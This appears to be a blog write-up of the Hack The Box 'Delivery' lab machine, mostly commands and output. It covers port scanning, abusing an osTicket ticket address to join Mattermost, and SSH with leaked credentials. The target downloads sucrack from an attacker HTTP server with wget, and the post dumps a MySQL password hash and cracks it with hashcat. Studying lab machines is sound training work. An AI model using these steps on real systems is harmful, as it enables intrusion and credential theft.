 ```yaml
---
layout: post
title: "Delivery"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.120.35

sudo nmap -sC -sV -oA nmap/delivery -p 22,80,8065 10.129.120.35

result:
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 05 Dec 2024 14:31:32 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: rfbmprf6jpbwpe5dnrw45wrtfe
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 05 Dec 2024 14:34:10 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 05 Dec 2024 14:34:12 GMT
|_    Content-Length: 0
```

Let’s visit the website. Upon clicking a link we get redirected to helpdesk.delivery.htb. Let’s add that to /etc/hosts. The site is an osticket app. It has known vulnerabilties.

![image.png]({{ site.baseurl }}/assets/delivery/image.png)

```bash
bobby, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 5093027.

If you want to add more information to your ticket, just email 5093027@delivery.htb.

Thanks,

Support Team
```

This ticket shows that any new requests regarding this ticket will get an email automatically sent here. Let’s use this internal email to create a new account in Mattermost.

There is also another link on the home web page in contact us with domain delivery.htb, let’s add that in /etc/hosts as well.

Visiting the site lands us in a login page where we can create a new user. Let’s use the ticket email and create a new user. Once the registration is complete, we will get sent a confirmation email. We can view the email in the osticket app, simply refresh the ticket page and visit the link:

![image.png]({{ site.baseurl }}/assets/delivery/image%201.png)

Now the registration process is complete and we can sign in with the internal email to mattermost.

![image.png]({{ site.baseurl }}/assets/delivery/image%202.png)

Luckily we also got our first credential:

![image.png]({{ site.baseurl }}/assets/delivery/image%203.png)

We also got a hint that the company uses variation of PleaseSubscribe! password everywhere.

Let’s try to login as maildeliverer to ssh. We are logged in. Let’s use [LimEnum.sh](http://LimEnum.sh) to enumerate the machine.

```bash
scp /home/billy/tools/LinEnum.sh maildeliverer@10.129.120.35:~/

On Target host:
chmod +x LinEnum.sh
./LinEnum.sh

result:

[-] Network and IP info:
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.120.35  netmask 255.255.0.0  broadcast 10.129.255.255
        
[-] ARP history:
10.129.0.1 dev ens192 lladdr 00:50:56:b9:f8:ec REACHABLE

[-] Default route:
default via 10.129.0.1 dev ens192

[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::8065                 :::*                    LISTEN      -   

********MYSQL************   
[-] MYSQL version:                                                                                                                                        
mysql  Ver 15.1 Distrib 10.3.27-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

[-] SUID files:                                                                                                                                           
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                               
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

mattermost:x:998:998::/home/mattermost:/bin/sh

*A mattermost user*
```

Let’s try and login to mysql

```bash
mysql -h localhost -u maildeliverer -p
```

Does not work. Let’s try bruteforcing root login with hashcat transformation rules. First create a text file that contains the string ‘PleaseSubscribe!’. Then:

```bash
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

Next we install sucrack and upload it to the target server:

```bash
python3 -m http.server 1234

on target:
cd /dev/shm   #this dir because it's not persistent, deletes files later
wget http://10.10.14.132:1234/sucrack
wget http://10.10.14.132:1234/pwlist
```

Now to execute sucrack

```bash
./sucrack -a -w 20 -s 10 -u root -r pwlist
```

sucrack don’t seem to work on the target.

Let’s try another way. Looking in the config of mattermost, which apps are commonly found in /opt dir:

```bash
cat /opt/mattermost/config/config.json

result:
    "SqlSettings": {                                                                                                                   15:55:32 [384/1838]
        "DriverName": "mysql",                                                                                                                            
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",      
        "DataSourceReplicas": [],                                                                                                                         
        "DataSourceSearchReplicas": [],                                                                                                                   
        "MaxIdleConns": 20,                                                                                                                               
        "ConnMaxLifetimeMilliseconds": 3600000,                                                                                                           
        "MaxOpenConns": 300,                                                                                                                              
        "Trace": false,                                                                                                                                   
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",                                                                                           
        "QueryTimeout": 30,                                                                                                                               
        "DisableDatabaseSearch": false 
```

We acquire credentials for user mmuser.

```bash
mysql -u mmuser -p  #Crack_The_MM_Admin_PW

SHOW DATABASES;
USE mattermost;

show tables;
describe users;
select ID,Username,Password from Users;

result:
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

![image.png]({{ site.baseurl }}/assets/delivery/image%204.png)

Now let’s try and crack it with hashcat with our pwlist rules.

```bash
hashcat -m 3200 root_hash.txt pwlist
```

We got the password.

We could’ve also done:

```bash
hashcat -m 3200 root_hash.txt pw -r /usr/share/hashcat/rules/best64.rule
```

- osticket
- LinEnum
- Looking through config in /opt
- mysql
- hashcat with rules